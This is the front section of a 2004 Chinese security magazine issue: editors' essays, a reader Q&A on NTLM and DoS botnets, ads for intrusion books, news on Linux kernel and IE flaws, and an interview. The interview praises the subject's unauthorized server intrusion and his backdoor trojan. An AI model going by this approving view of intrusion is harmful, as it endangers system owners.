2003年是《黑客防线》成功的一年，更多的人开始关注《黑客防线》，我也正是在这一年的年末加入了黑防编辑部，有幸成为《黑客防线》的一名编辑。如果说在做编辑之前我对《黑客防线》的认识还仅仅局限在“技术高级”的感性认识上的话，现在应该说有了切身的“在攻与防的对立统一中寻求突破”的理性体会了！希望大家也通过我们杂志的每篇文章体会到攻防技术水涨船高后所带来的技术提升快感！

作为一个编辑，其主要工作直接一点的就是和稿件打交道，间接一点的是和作者打交道。一篇稿件到了我的手中，我需要做的不仅仅是把这篇文章技术性文章找找错别字，规范一下格式等简单的校对，做好一个编辑没有这么简单，除了基本的文字工作之外，我要想的是如何把一篇技术性文章做成和读者沟通的一种桥梁！做杂志本身的目的不单单是为了让读者去读我们编辑的文章内容，更重要的是去体现杂志本身对读者的一种关怀，让读者能够在读文章了解技术的同时读出编辑的思想，读出杂志社对读者的关怀！我们，会继续努力！争取让大家能看到一本夏时清凉、冬时温暖的“爱心”杂志！

另外，经过一段时间的编辑工作，我意识到交流对编辑是非常重要的，因为交流能让编辑在第一时间了解更多的最新技术，同时也让编辑能更加贴近读者，了解他们的情况。这种交流不仅仅表现在通讯方式上，更重要的是应该时时有交流的意识，“交流、交流、再交流”是我和读者沟通上信奉的一条原则。

2004年第1期的《黑客防线》将更切实地推广这个人文关怀理念，从第1期开始，我们将把这种理念具体的呈现在读者面前：从读者的角度出发，新增加了“新兵训练营”这个为新手准备的栏目，同时还有“攻防实验室报告”这种和每一位爱好实验室的读者息息相关的栏目。此时的你是不是已经有点按捺不住了？呵呵，让你和我一起来见证《黑客防线》的未来吧！

Ps：广告时间！我的 Email: liuliu@hacker.com.cn。欢迎大家积极投稿，也欢迎每一位志同道合的读者交流，我们将会成为好朋友！

## 脚本小子

继我们亲爱的、敬爱的、英均的、潇洒的、稳重的……Wtf 给编辑部注入新的血液后（Wtf：倒！你说的是我吗？呵呵），最近黑防新编辑又接连上任了，来自各领域内的高手汇集于此，我们的队伍又壮大了，相信在新的一年里，通过杂志的改版、网站的推广、实验室的成熟，新年《黑客防线》一定能给大家带来全新的体验！让大家更好的在网络安全的天空中翱翔！

最近太累了，为了给大家提供最优质的稿件，满脑子想的都是杂志的事，不知不觉中竟然睡着了，还做了个梦……

一天，编辑部新来的唯一女编辑 MM 蝴蝶问：各位GG，究竟 Hacker 和 Cracker 到底有啥区别呀？但见脚本小子立时站起，二话不说，旋风般跑出，正当众人对脚本小子的行为感到莫名其妙之际，门开了。脚本小子换了一身黑色风衣，戴着一副墨镜，大步跨前，坐在电脑面前，表情冷峻地像高仓健，飞快地敲着键盘，# ! % #%……然后转过身来，望着众小编，甩了甩长发，鼻子中发出“哼”的冷笑：“这！就是 Hacker！”只见蝴蝶 MM 双手抱在胸前，一双杏眼露出深深的崇拜，其他编辑却装作没看见！

IceFire 慢慢地站了起来，扬了扬手中的《孙子兵法》：“这才是有黑客啊？你是不是《黑客帝国》的影迷？深受好莱坞计算机导演的误导，害人不浅啊！”说罢继续看《孙子兵法》去了……

刘流吐出了一口烟，捧着词典说道：“刚才翻了《美国传统词典》，看看它怎么解释的吧。Hacker：One who is proficient at using or programming a computer; a computer buff.; One who illegally gains access to or enters another's electronic system to obtain secret information or steal money。再看看 Cracker 的解释：One who makes unauthorized use of a computer, especially to tamper with data or programs。”

脚本小子听得满头雾水，刘流过去拍了他的肩膀，咳了几声，编辑部立即安静下来，“弟兄们，蝴蝶妹妹关于 Hacker 和 Cracker 区别的问题，脚本小子的理解实在太肤浅了。”刘流清了清嗓子继续说，“正好这期的采访稿，提到了关于 Hacker 和 Cracker 的区别的问题。下面我来给大家念念：

Hacker 和 Cracker 是有明显的区别，Hacker 以严格的、天才般的思维感触这世界，以漂亮、简洁、完美的编程为自豪，发现系统级别的 Bug 为乐趣，突破各种安全防范为资本，研究的范围一般在“突破”(Hack)：网络系统、长途电话系统、PGP加密系统、信用卡识别系统、RSA 系统、计算机病毒、无线系统以及身份识别系统等等。而 Cracker 对解密软件有一种偏爱，以破解各种加密或限制的商业软件为乐趣，讲究 Crack 的艺术性和完整性，从文化上体现计算机的大众化。Cracker 有很深的数学基础和密码学造诣。的的确确，他们是计算机发展的一种动力。Ivan 博士说：‘Cracker 是一个对于未知世界不间断的追问者。’”

随着刘流话音刚落，编辑部立即掌声一片。

“咳”刘流示意大家安静下来，接着说：“大众对 Hacker 和 Cracker 的理解都存在偏差，以为 Hacker 就是网络攻击者、入侵者，而 Cracker 就是制造网络恐怖活动的恶棍。其实，这两个理解都是错误的！”刘流说着，略显激动，声音提高了八度：“本期的采访稿，就是要给 Cracker 正名，还 Cracker 本来面目！”唬得蝴蝶妹妹上前拿出自己珍藏的鸡腿献给刘大侠，众小编立倒……

梦醒了，又是一个艳阳天，寒冷并不能驱散冬日的阳光，或许正是这样一份寒冷反而平添了冬日暖阳……努力吧！为自己梦想而奋斗的朋友们！

## Wtf

翻翻最新的新闻杂志：某某病毒又一次席卷全球；某地区的银行网络被不法分子进入；网络游戏的服务器被黑客篡改……想了解事情背后的技术细节吗？想知道病毒的传染机制吗？记得留意每期的《黑客防线》！2004 年更精彩的内容等着你！

来到编辑部那么久了，最被他们值得称道的还是我跟东西跟的最紧了，跟什么东西？当然是漏洞了，诸如 Messenger 漏洞、OWA 跨站点明文密码漏洞、RTF 溢出漏洞等等，不过我只是把漏洞公告发给脚本小子，然后就等着收稿了！（脚本小子：哼！又欺负我！不过这样的事多点更好，我可是非常喜欢这个的哦！）

新的一年即将来到，在这辞旧迎新的日子里，所有的一切都不再重要，只留下全体黑防工作人员最真挚的祝福送给大家就够了：在新的一年里，祝大家工作顺利、身体健康、合家欢乐，万事如意！

---

最近最火的安全事件莫过于 Linux 内核存在的安全漏洞了，众多的 Linux 厂商最近纷纷发布 rsync 和 kernel brk() 的安全公告，这是两个非常危险的安全漏洞：rsync 可以远程获取普通用户权限，然后通过 kernel brk() 溢出提升为 root 权限。最近 Debian 服务器的攻陷正是利用了这两个漏洞。iSEC Security Research 也已经释放了 Linux kernel do_brk() 的溢出代码，所以目前还在使用 2.4.23 以下版本内核的 Linux 服务器请尽快升级内核。关于 Linux kernel do_brk() 溢出漏洞的细节我们将在近期杂志中公布具体的攻防方法，希望大家关注。

**论坛 213：** 我在入侵的过程中经常使用 telnet，但是明明我有他的账户，但是每次那个讨厌的 NTLM 验证都将我拦在系统外！我想问问脚本小编，NTLM 究竟是怎么工作的？它的工作流程是怎样的呢？

**脚本小子：** NTLM 是为没有加入到域中的计算机（如单机服务器和工作站）提供的身份验证协议。它的身份认证过程是这样的：
1. 客户端首先在本地加密自己的密码成为密码散列；
2. 客户端向服务器发送自己的账号，这个账号是没有经过加密的，明文直接传输；
3. 服务器产生一个 16 位的随机数字发送给客户端，作为一个 challenge；
4. 客户端再用加密后的密码散列来加密这个 challenge，然后把这个返回给服务器，作为 response；
5. 服务器把用户名、给客户端的 challenge、客户端返回的 response 这三个东西，发送给域控制器；
6. 域控制器用这个用户名在 SAM 密码管理库中找到这个用户的密码散列，然后使用这个密码散列来加密 challenge；
7. 域控制器比较两次加密的 challenge，如果一样，那么认证成功。

**南京 李永：** 我们单位有一台机器是 Windows XP 操作系统，开机时候的密码设置成了不用输入，但是老是过了一个月就会弹出一个对话框让输入一次修改密码以便确认，请问怎么能在开机时候不用输入密码？

**蝴蝶：** 要想不用再确认密码，只要进行简单的设置就可以了。进入“控制面板->管理工具->计算机管理”，然后选择“本地用户和组”，双击某用户后进入设置界面，选择“密码永不过期”即可。

**安阳 赵志强：** 在网上我经常看到一些黑客所使用的一种被称为 DoS 的攻击手段。这种攻击集中了几百甚至上千台服务器的带宽能力，对单一目标实施攻击，很快就能使目标因网络阻塞而陷入瘫痪，不能向合法用户提供正常的服务。关于这种 DoS 技术，我有几个问题想请教一下：黑客是如何使数百上千台电脑协同工作的呢？被攻击的网站采取何种措施可以防止这类攻击？网站为何不能够只接受来自合法用户的访问请求？

**蝴蝶：** 
1) 黑客通过一些常用的黑客工具侵入并控制一些防范不严的电脑系统，并植入一个有害程序，比如木马、DoS 攻击工具等。这些程序平时并不发作，只有在得到黑客的特殊指令后或在特殊时刻才向目标主机发送攻击信息。由于攻击是从别人的电脑发出的，因此很难追踪。
2) 被攻击的网站本身很难采取什么措施来防止这类攻击。关键是要提高各类电脑的安全防范性能，使它们不至于被黑客利用来进行这种攻击。如果网站受到了攻击，应该马上采取措施追踪攻击的源头，向对方的网络管理员发出警告，通常这项工作需要耗时数小时，而且需要多方配合才可以。
3) 对合法用户的身份进行认证的过程需要耗费大量的宝贵时间。首先网站的接入服务商必须能够做到在部分用户的请求达到目标网站之前进行截留，但是用户的访问请求往往来自多个地址，其中的回程地址有些可能是假的，因此，要把真的假的分开，实际操作有很大难度。

## 《BIOS 应用百问百答》上市热卖中

本书具有信息量大、操作性强的优点。并根据目前最新内容进行了全面更新。以生动详实的问答实例全面介绍了 BIOS 与 CMOS 的设置方法与使用技巧。全书由 BIOS 与 CMOS 基本功能、BIOS 设置详解、BIOS 刷新、BIOS 个性化设置、BIOS 维修、以及另类 BIOS（显卡、光驱等）等 6 章内容组成。

本书通过对 BIOS 相关硬件知识、CMOS 的概念、BIOS 的设置方法以及升级等内容的讲解，可使读者对 BIOS 和 CMOS 有一个全面、深入的理解。170 个有关 BIOS 的实例解答，涉及了与 BIOS 相关的 7 个方面的内容，对读者的实践能起到很好的指导意义，大大增强了实战技巧。

本书适合各类计算机用户，是计算机使用者日常维护计算机必备的工具书。

- 第一章 BIOS 基础
- 第二章 BIOS 设置
- 第三章 BIOS 刷新
- 第四章 BIOS 个性化设置
- 第五章 BIOS 维修

## 《黑客对战实例与技术分析》上市热卖中

在最近几年里，网络攻击技术和攻击工具有了新的发展趋势，使借助 Internet 运行业务的机构面临着前所未有的风险。本书将对网络攻击的新动向进行了分析，使读者能够认识、评价，并减小这些风险。本书没有阐述繁琐的信息安全理论，而是从应用的角度阐述了黑客最新的攻击手段和步骤，并提出了相应的预防措施和建议，可读性和实战性非常强。本书的内容丰富新颖，主要包括扫描技术、后门入侵、黑软伪装、破解技术、以及打造自己的黑兵器等。本书适合于任何对网络安全和黑客技术感兴趣的读者，对网络管理员和系统管理员有重要的参考价值。特别是刚刚迈入黑客之门的读者。

- 第一章 扫描技术
- 第二章 网页攻击
- 第三章 后门技术
- 第四章 千变万化的黑软伪装之道
- 第五章 乘虚而入 漏洞攻击
- 第六章 破解技术剖析
- 第七章 打造自己的黑兵器

## 黑客防线 www.hacker-defence.com 目录 2004 / 2 ——针对最新入侵与攻击的防范研究

- 总编辑：孙彬
- 执行主编：郭聪辉
- 编辑部主任：吴田锋
- 编辑：刘流、蝴蝶、脚本小子、Socket、彭国军、刘志勇、谭磊
- 采编部主任：郭嘉
- 美编部：王凤
- 技术部：徐生震
- 发行部：孙雁秋
- 邮购部：郭丽敏

- 光盘刊号：CN15-9201/TP
- 编辑：黑客防线编辑部
- 出版：家庭电脑世界杂志社
- 制作公司：北京地海森波网络技术公司
- 通信地址：北京中关村邮局 008 信箱
- 邮政编码：100080
- 协办单位：北京寰海科技开发中心

- 技术支持电话：62141445-8004
- 投稿 E-mail：hacker@hacker.com.cn
- 问题解答 E-mail：answer@hacker.com.cn
- 网址：http://www.hacker-defence.com
- 发行部电话：62141446
- 发行部传真：62141360
- 邮购部电话：62141445-8011

- 常年法律顾问：北京风清律师事务所 王碧清 律师
- 电话：13701229137
- 传真：(010) 84510532
- E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00 元人民币（光盘 + 说明书）

### 卷首语
### 业界动态
- 新闻动态

### 名家专访
- 传奇人生——访“蓝色凯博”曾国发 ...... 4

### 专题企划
- 透析硬件防火墙 ...... 6

### 漏洞攻击防范
- 抵抗 Linux kernel do_brk() 参数边界检查不充分漏洞 ...... 13
  brk 漏洞在 2003 年 9 月份就被 Linux 内核开发人员与一些安全人员发现，但是内核开发人员却忽略了该漏洞的危害性，使广大 Linux 管理员根本没有察觉该漏洞，致使该漏洞在攻击者对 Debian 与 Gentoo 的攻击行动中扮演了重要角色。由于该漏洞的攻击代码已经大规模公开，所以严重地影响到了 Linux 系统的安全性，在严峻的情况下你的系统打补丁了吗？你做好防护了吗？没有的话，赶紧看看本文吧！
- MHTML 文件重定向漏洞防范策略 ...... 15
- 手机防“暴”秘诀 ...... 16

### 脚本攻击防范
- 防御伪造图片跨站脚本攻击 ...... 18
- 脚本攻击防范策略完全篇（下） ...... 20

### 黑客攻击防范
- 网络管理之“清晰可见” ...... 25
- Regsnap, 完全监控你的系统 ...... 28

### CVC 病毒专栏
- 朝花夕拾—— DOS 下 COM 病毒分析思路 ...... 31
- 窥视蠕虫灵魂 —— ShellCode ...... 35

### 网管之家
- 利用软件限制策略加固系统防御 ...... 39
- 使用分布式文件系统实现文件目录层次设计 ...... 44
- Solaris8 x86 上实现和 Windows 平台安全共享 —— samba 安全配置 ...... 48

### 安全方案
- Windows 2003 .net IPsec 配置全攻略 ...... 51
  Win2000 时代的服务器防范大多集中在系统中某方面程序的运用，比如常见的 IPSec。自从微软推出 Windows 2003 以来，在系统功能的各方面都有了比较大的改进，原来 2000 系统下的很多处理方式也在发生改变，由此也带来了服务器市场的群起争霸，2003 给我们带来了哪些新的体验？哪些新的功能？哪些新的策略？敬请阅读本文，一切都将揭晓。
- 防范网络攻击之互联即时系统设计法 ...... 53
- 移动梦网 SP 接入平台网络安全解决方案 ...... 56
  移动梦网是中国移动通信集团公司推出的无线数据增值业务的全国统一品牌。移动梦网的出现大大地刺激了互联网的快速发展，移动支付和短信平台的出现使得“所有的商业模式被最大程度地激活，并释放出前所未有的激情”。这样如何保证其安全性也就格外重要。本文就是针对移动梦网而做出的安全方案，希望能给黑防的读者们带来更多收获。
- Serv-u ftp 安全配置进阶 ...... 60

### 编读互动

## 黑客防线 2004 精华奉献本
定价: 35 元

### 内容提要
《黑客防线 2004 精华奉献本》是在《黑客防线》杂志攻、防两册明确定位后推出的第一个精华本，汇总了从《黑客防线》总第 25 期到总第 36 期的精华内容，并且增加新的专题内容融合而成。全书按照攻防关系分为攻册和防册 2 本，内容通俗易懂，图文并茂，非常便于读者阅读。在栏目划分上，选取了《黑客防线》最受读者欢迎的 15 个栏目，特别是漏洞攻击、脚本攻击、黑兵器库和漏洞攻击防范、脚本攻击防范、黑客攻击防范 6 个栏目一一呼应，攻防分明，非常适合读者学习和研究。

本书附赠 2 张光盘。光盘内容包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文献、最新补丁，以及 150 个全程攻防录像演示。本书适合网络管理人员、网络爱好者和网络安全技术人员阅读。

### 邮购信息

| 名称 | 介质 | 价格 |
|---|---|---|
| 黑客防线 11-38 期 | 1CD | 10.00 元 / 期 |
| 黑客防线精华本 2001 | 2CD | 29.00 元 / 本 |
| 中国黑客内幕 (6 折) | 1CD | 15.00 元 / 本 |
| 黑客防线增刊 2002 | 1CD | 19.80 元 / 本 |
| 黑客攻防 One To One | 1CD | 19.80 元 / 本 |
| 黑客编程 Follow Me | 1CD | 23.80 元 / 本 |
| 黑客攻击技术揭密 | 1CD | 23.80 元 / 本 |

《黑客防线》创刊号到《黑客防线》10 期以前的杂志邮购请到我们网站: http://www.hacker.com.cn/book.htm 查询库存数量。

- 汇款地址: 北京市中关村邮局 008 信箱
- 邮政编码: 100080
- 收款人: 《黑客防线》邮购部
- 热线电话: (010)62141446, 62141445-8011
- E-mail: yougoubu@hacker.com.cn

## 黑客防线专辑系列 CD + 书 19.8 元

## 《代码攻击精粹》

## 《漏洞入侵精粹》

## 上市热卖中

### 35 名黑客 60 篇涉及各种脚本安全问题研究的心血之作

《代码攻击精粹》这本专辑以全实例的形式介绍了黑客分析各种补丁本程序的编写漏洞，从而衍生出来针对这些漏洞的攻击思路和方法。在这些脚本程序没有发布安全补丁之前，利用这些程序 BUG 达到其攻击目的。内容上主要从 ASP 脚本、PHP 脚本、CGI 脚本、数据库脚本以及一些另类脚本分类讲解。每个分类下都有很多应用案例，非常方便读者进行研究学习。

35 名黑客的 60 多篇文章中所涉及的各种脚本安全问题研究的文章代码和用到的程序都收录在光盘内。请读者一定保存好光盘，以便阅读时候可以参照。

### 70 个入侵案例详细分析

《漏洞入侵精粹》这本专辑收集了黑客攻击最常利用的各种漏洞，从简单到复杂。从单一的漏洞利用到各种漏洞的综合应用。一个个用入侵实例的形式表现出来，并且给出了这些漏洞的防范方法，使得读者能够知己知彼，做好防范工作，减少损失。在遭受入侵后可以最快速度地作出反应，找出被黑原因，查找黑客来源，做好下一步的安全防范措施。

40 多名黑客的手中各种漏洞安全问题研究的文章代码和用到的程序都收录在光盘内，请读者一定保存好光盘，以便阅读时候可以参照。

## 黑客防线专辑 1：加密解密技术

## 黑客防线专辑 2：编程解析精粹

本专辑数量有限，欲购该书的读者，请速到您购买杂志的地点进行订购，或者致电黑客防线邮购部提前订购。关于此书的详细情况，请登录黑客防线网站（www.hacker.com.cn）查询。

- **邮购信息**
- 通信地址：北京市中关村邮局 008 信箱
- 邮政编码：100080
- 收款单位：黑客防线邮购部
- 电话：010-62141446
- e-mail: yougoubu@hacker.com.cn

## 成长

二月的北京，乍暖还寒，春意料峭。

我国互联网业界风起云涌，网络从最初的新奇，到如今弥散到人们的日常生活，它改变了传统的信息消费渠道、抢占了新闻受众、影响着大众舆情……面对汹涌而来的信息浪潮，网络的脆弱性也在经受着一次次的考验和打击。面对这样的转变，为了普及广大网友的网络安全常识、提高网络管理员的技术水平，《黑客防线》应运而生——一本集网络安全专业技术、专业资讯为一体的专业杂志。

作为中国最早的网络安全类的杂志，走过了两年的风风雨雨。如今，当年安全类媒体界的一个纤细的绿芽，悄然成长为一棵参天大树。今天，面对市场出现的各种同类杂志，在日趋激烈的竞争状态中，我们《黑客防线》的全体编辑和万千读者，坚定创办原则，集思广益，精益求精，厚积薄发，终于，等来了这样的一天：《黑客防线》，成功进入香港市场！令我们备受感动的还是我们亲爱的读者，即使他们远赴大洋彼岸，依然心系我们的杂志。正是有了你们，才使得全体编辑们觉得付出的汗水值得，再累也认了！

今天，我们在香港市场占据了一席之地，但是，这个成绩只代表昨天，而明天，我们《黑客防线》仍然将继续追求更好，我们，永远不会满足昨天取得的成绩，我们全体黑防人，将永远铭记：雄关漫道真如铁，而今迈步从头越！

## Linux 内核隐患已经确定 打上补丁事不宜迟

在近日发现了 Linux 内核程序严重的安全隐患之后，专业人士警告 Linux 用户抓紧时间尽早为他们的系统打上补丁。该错误是由用来控制虚拟内存的 Linux (mremap(2)系统访问码) 有失严密所造成的。这种缺陷可能会给一些脆弱的系统带来恶意的攻击。发现这一弱点的精密安全设备制造公司 iSEC 警告说“对该弱点的不正当利用可能导致局部特权的增加，包括对接入内核的命令的破坏。”根据 iSEC 所说，该缺陷影响到 2.2、2.4 和 2.6 系列 Linux 内核。尽管远不能够直接利用该弱点对系统造成攻击，但理论上已经产生了能够随意利用 2.4 内核信息的指令。

SuSE 和 RedHat 已在他们的工具包里打上了内核软件的补丁。其它的用户也应尽早为他们的易受攻击的系统打上补丁。

### 警惕 QQ 狂盗王与盗密者

反病毒专家提醒，一种“QQ 狂盗王”变种 (Troj.PSWQQDragon.s) 能通过诱骗和键盘拦截来盗取 QQ 密码。该病毒为保证自己的生存能力，会采用多进程互相监视的方法，当主进程被中止时，会被其他的病毒进程重新调用。病毒还会遍历所有目录，并复制自己到每个目录中，大量浪费磁盘空间。手工清除成功性很小，可用最新杀毒产品进行删除。

另外，一种名为“盗密者” (Win32.Troj.AIMChalex.10) 的病毒通过向系统植入 hook 程序来记录所有的鼠标和键盘消息，从而得到系统的登录名和密码，然后将得到的信息发送到匿名的邮件地址，可能会造成用户直接经济损失。该病毒可以手工清除。

### 2003 年全球计算机网络犯罪行为增长 60%

据美国网络犯罪处理中心的最新数据显示，2003 年全球总共接收网络犯罪报告达 12 万例，比 2002 年增长了 60%。

据悉，这些利用网络犯罪的形势诸如计算机病毒、垃圾邮件、诈骗、非法贸易、网络信息盗窃、破坏计算机资料数据、非法转账以及提取存款、网络敲诈和非法侵入计算机网络系统等等。其中，出现部分罪犯使用计算机病毒盗取个人计算机信息，非法搜寻网络用户的银行账户或是进行网上贸易诈骗交易。

此外，在 2003 年当中有将近 8.6 万种计算机病毒已经得到确切认定，还包括有 2003 年 100 种最新发现的计算机病毒，他们当中有 10 种病毒被认为是极具杀伤力的病毒。而索比-F 计算机病毒 (SOBIG-F) 是目前为止发现的破坏力最大的病毒，能够发送大量具有破坏性质的电子邮件。

在 2003 年全年，计算机黑客们还使用众多令人眼花缭乱的招数和借口来蒙骗因特网用户，以便更加迅速地传播各种计算机病毒，诸如假冒以微软公司的名义向计算机网络用户来提出有关计算机网络安全运行的技术升级等。

### 挪威警方放弃再次上诉 骇客被控盗版 DVD 案以无罪落幕

挪威警方最近表示，他们不会就一宗广受瞩目的数字多功能光盘 (DVD) 盗版案第二度提起上诉，此举意味着这名 20 岁的年轻骇客 (黑客) 获得最终胜利，而好莱坞则以失败收场。奥斯陆一家上诉法庭在 12 月下旬洗刷了昵称为“DVD Jon”的约翰森 (Jon Johansen) 的罪名。

这项针对约翰森 (Jon Johansen) 的盗版指控的撤销，从而激怒了美国电影业界，后者希望以法律手段阻止全球未经授权擅自复制 DVD 的歪风。挪威警方代表美国电影协会 (MPAA) 对约翰森提起起诉失败后，曾考虑在 12 月 22 日的裁决后两周内，赶在最后期限前向挪威最高法院提起上诉。不过，他们在一份声明中宣布，警方“决定对 DVD 一案的判决不再提起上诉。地方法院的无罪判决因而成立”，但声明没有披露更多细节。上诉法庭称，约翰森在互联网 (因特网) 中帮助译码和散发计算机程序，使得他人可以非法复制 DVD 影片，这并没有违犯法律。

### 都是 Winamp 惹的祸
### IE 新年再现漏洞

新年伊始，安全公司 Secunia 就针对 IE 5.01 等版本的浏览器提出了中等紧急的安全警告。根据 Secunia 的公告，IE 浏览器的最新漏洞也是 2004 年发现的第一个漏洞是“showHelp()”限制绕过漏洞。这其实是由 Arman Nayyeri 于较早前发现的“showHelp()”漏洞的一个变形，同“可信任”站点有关。Secunia 声称，有实验证实该漏洞存在于安装有 Winamp 5 的系统的 IE 6 中——尽管 IE 6 已安装了所有补丁。

微软设计 IE 时允许网站调用“showHelp()”功能，打开本地安装的帮助文件压缩文档“CHM”。这可能包含了系统命令的参考论述并可执行代码取得登录用户的权限。通常情况下，IE 允许被认为“可信任”的站点打开本地安装的 CHM 文件并不会对用户构成安全威胁。但是，恶意网站只要使用特殊的句法就可使 IE 将其他文件视为 CHM 文件而打开。如果计算机中安装有如 Winamp、XMLHTTP 等允许网站在一个已知位置安放文件的程序时，IE 的这个功能就可能会被利用。

Secunia 也发布了一个攻击实例，攻击者可在默认位置安装有 Winamp 的系统上运行任意代码。

### Jitux.A 蠕虫病毒猖獗

一种以微软的 MSN 信使软件为攻击目标的新蠕虫病毒已经向即时信息 (IM) 发起大举攻击。这种蠕虫病毒的名称为 Jitux.A，其攻击形式是向用户发出即时信息并诱使用户点击 URL。一旦点击 URL，用户就会下载一个含有链接的 jituxramon.exe 文件，而该文件每隔 5 分钟就会自动发送给 MSN 信使中所存储的所有联系人。

Jitux.A 蠕虫病毒是在 12 月 31 日开始迅速传播的，该病毒没有其它明显的破坏性影响，也不会使系统配置发生改变。据安全调查公司称，Jitux.A 并不是向即时信息网络尤其是向 MSN 信使发动攻击的第一种病毒，目前公布的此类病毒已经超过 60 种。

### 用户发现 PTC 软件时间缺陷

日前，一位顾客在使用 PTC 公司的软件时，发现电脑不能进入 2004 年的日历，随后该顾客与 PTC 公司取得联系。PTC 公司立即派技术员跟踪调查，调查发现是编码中的数学错误导致软件出现了时间上的问题。

PTC 公司在其网站上发表公告说，这次出现的问题将会影响到 Pro/Engineer、Pro/Intralink 和 Windchill 应用软件等。一些软件虽然没有出现类似的时间休止问题，但如果这些软件与有问题的软件相互交合的话，那么这些软件就会受到影响。此次问题虽不会造成数据破坏，但存在问题的软件就不能再使用，直到修补软件或者对原版软件进行升级以后，软件才能恢复正常。

据悉，在不到一周的时间里，PTC 公司程序员就设计出补救方案，并发出软件补丁来纠正出现的问题，从而保证用户正常使用 PTC 的软件产品。约瑟夫说，如果没有及时发现存在的时间问题，那么下个月所有的 PTC 用户都将受到影响。不过，幸运的是我们的顾客发现了这个错误。他还指出，在今后新版的产品中将含有此次修改编码，采用不同形式的逻辑，从而将不再出现时间休止问题。

## 传奇人生

- 姓名：曾国发
- 网名：发哥
- 出生日期：1978 年
- 职务：成都蓝色凯博软件开发有限公司总经理
- 特长：软件开发、网络安全防护

## ——访“蓝色凯博”曾国发

文 / 蝴蝶

“网络安全”时下成了最热的“盲区”——很多人都梦想着能成为“黑客”，而他们，很显然扭曲了“黑客”的定义。“黑客”是什么？程序员就是“黑客”？做技术没有前途？……这一切的盲点构成了现在的“盲区”，本期我们特邀了“蓝色凯博软件公司”的 CEO 发哥，让他带给大家自己的故事，希望能给迷茫中的程序员、安全人士点一盏明灯！

### 程序员的艰辛

知道一个真正的软件程序员是怎么磨练出来的吗？除了加倍的努力、迸发的热情、艰苦的磨练之外，日复一日的重复单调的代码是他们生活中唯一而又是全部的内容！

发哥很早开始学习编程，他从 1993 年开始接触计算机，真正和计算机打交道是在 1996 年。那时他开始自学汇编语言，在资料缺乏（条件艰苦）、没有人指点的情况下，摸索了半年。我们曾试图探索发哥在这半年内经历的艰辛，但发哥轻描淡写的带了过去，很明显，这里面有超乎常人想象的痛苦和劳累，让我们向所有努力的程序员敬礼！

经过半年的汇编“磨练”，发哥作了一个并不明朗的选择：开始学习 VFP！随后还为学校编写了一套学生管理软件，一直沿用至今，而且曾经一度把它作为自己的目标！后来，发哥认识到 VFP 的局限，开始学习 Delphi，再次开始一个艰辛的跋涉……

发哥在谈到过去学习的历程时，无限感慨的说：“总的来说，我的人生就是不断学习的过程，通过几年程序设计的学习使我明白了什么叫真正的程序员，只能用一个字来概括——苦！”当我们问起发哥自己的优势和特长是什么的时候，发哥告诉我们：解释器和编译器的程序书写，二次开发的编写就是他的特长！

### 网络安全任重道远

可能大家对“发哥”最熟悉的就是“周润发”了，对我们真实的“发哥”不是很熟悉，因为发哥非常低调，编辑部也是费了好大劲才拉来这个大忙人，一说到我们是《黑客防线》的，主要关注网络安全技术，发哥才开始回忆起自己那些“准黑客”的日子！

发哥是如何对安全产生如此大的兴趣呢？我们为什么用“准黑客”这个词来形容他？发哥对网络安全存有一种固执的痴迷，从开始学习编程开始，发哥就时刻在关注最新的网络安全信息，但从最开始搞网络安全开始，发哥注重的就是安全防护，很少真正的去作攻击和入侵，除了例外的一次：六个月的刺探和信息收集，无数个不眠之夜，对方服务器里一切能收集到的信息都被汇聚到了一起，以发哥为首的四人小组耗费了大量的时间在信息的收集上，目的很简单——一举拿下服务器上的有用信息！

发哥说起这个很激动，端着茶杯的手在轻微的颤抖：目标服务器是个很罕见的系统，管理员安全意识也很到位，1/4 的代码是自己编写的，这样的系统对普通安全人士来讲几乎是毫无破绽，而发哥他们就是要啃这块硬骨头！收集信息完成后，对着厚厚的一叠资料，四个人全愣在那里：服务器使用的系统非常少见！公布过的漏洞一个都没有！放弃？不！发哥非常果断的决定：自己找系统漏洞！反汇编、反汇编……又是一个月过去了，小组里的成员几乎全部崩溃，这个系统几乎是完美的！最关键的时候，发哥终于不负众望，找到了系统程序编写的不足点！然后用三个钟头构造了一个经典的溢出程序，直接让服务器敞开了大门……

发哥对服务器的配置非常精通，他最重视的就是这个方面！他说：“记得当时的我们只知道用 DOS 的 net 命令来猜测对方的密码，以为这就是黑客，现在看来是多么低级！不过值得自豪的是，我们做了全面安全防护的服务器到现在都没有人攻破！”

当我们问起发哥安全经验的时候，发哥感慨万千：“安全经验其实需要靠大家平时的积累。比如怎么预防程序溢出呢？程序溢出目的就是要得到 SHELL，那么我们就掐断这条路。找到 CMD.EXE 和 NET.EXE 和 NET1.EXE，然后把权限只赋给一个指定的用户。因为系统程序被溢出后，溢出中提交的代码是以 System 身份进行的，只要把这 3 个文件的权限指定了专人，把 System 和 Administrators 和 Users 和 Everyone 删除后，就能在一定范围内限制溢出后攻击者得到 Shell！”

宏后门是发哥非常骄傲的作品，宏后门是一款带有解释器功能的木马软件；和以往木马软件不同的地方在于：原来的木马只是一贯的执行作者已经实现了的功能，但宏后门可以通过自己编写程序的方法来解释执行。

大家可能对 KBMacro 很感兴趣吧。那么这个 Macro (宏) 具体指什么呢？这里所说的宏，实际上是一种具有解释功能的一个解释器，它本身有一定的语法结构，有一定的函数、过程、类体系。就像一门编程语言，比如 Delphi 本身一样。中国没有自己的开发语言，发哥就希望从这条路走下去。

### 创业的梦想

现在的发哥成天在各大城市中飞来飞去，各地的分公司需要他处理的事情太多，但从发哥风尘仆仆的样子中，我们很容易体会到他内心掩不住的自豪！

在谈到现在的程序员出路时，发哥话很少，他很轻的说了几句：“很多人觉得做个单纯的程序员简单，每天只是面对重复的 code、code，虽然无数人期望成为程序员，但从一个过来人的角度告诫大家，不要盲目去确定你的发展路线，程序员很累，而且并没有大多数人想象中的那样风光，29 岁现象早已不是什么夸夸其谈，身边很多事或许能让一个程序员感到悲哀！”“但是，如果你确定你自己有非常大的热情、喜欢 code 的明朗和条理、有自主开发的能力，那么，选择程序员这条路将会非常适合你！”

从一个普通的程序员，历尽艰辛，到现在自己创立公司，传奇式的路带给我们很多思考：如何在自己选择的路途上把握好关键的转折？如何找到自己可以立足的点？如何开拓自己的未来？这些精髓发哥都未曾提及，他只想告诉所有努力的程序员一句：“努力吧！放弃你不该眷恋的东西，往前方更开阔的道路前进，相信成功是属于每个人的！”

> #### 结语
